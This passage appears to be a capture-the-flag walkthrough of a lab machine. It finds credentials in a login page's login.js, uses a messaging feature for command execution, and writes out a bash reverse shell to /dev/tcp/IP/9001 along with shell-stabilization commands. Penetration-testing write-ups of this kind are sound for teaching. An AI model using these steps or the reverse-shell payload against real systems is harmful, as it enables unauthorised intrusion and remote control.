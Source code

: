
We got a login page:



![](cybersecurity/images/Pasted%2520image%252020250519212128.png)


If we inspect the source code, we can find this:

![](cybersecurity/images/Pasted%2520image%252020250519212145.png)

There's a `login.js` file, inside of it, we can find this:

![](cybersecurity/images/Pasted%2520image%252020250519212206.png)

We got credentials, once we login, we can see this:

![](cybersecurity/images/Pasted%2520image%252020250519212235.png)

We can write messages for `yash`, if we try some commands they don't work, such as id or whoami, but, we can use `echo` to create a file:




![](cybersecurity/images/Pasted%2520image%252020250519212359.png)

![](cybersecurity/images/Pasted%2520image%252020250519212410.png)

As seen, it does create the file in our home, we can now create another file to send us a reverse shell as yash:


```
echo '' > /home/files/shell.sh
```

We now need to give the files permissions:

```
chmod 777 /home/files/reverse.sh
```

We can now change the contents to a reverse shell:

```bash
#!/bin/bash

bash -i >& /dev/tcp/IP/9001 0>&1
```


We now need to execute the file and get our shell if we have our listener ready:

![](cybersecurity/images/Pasted%2520image%252020250519213847.png)

We can now stabilize it again:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```
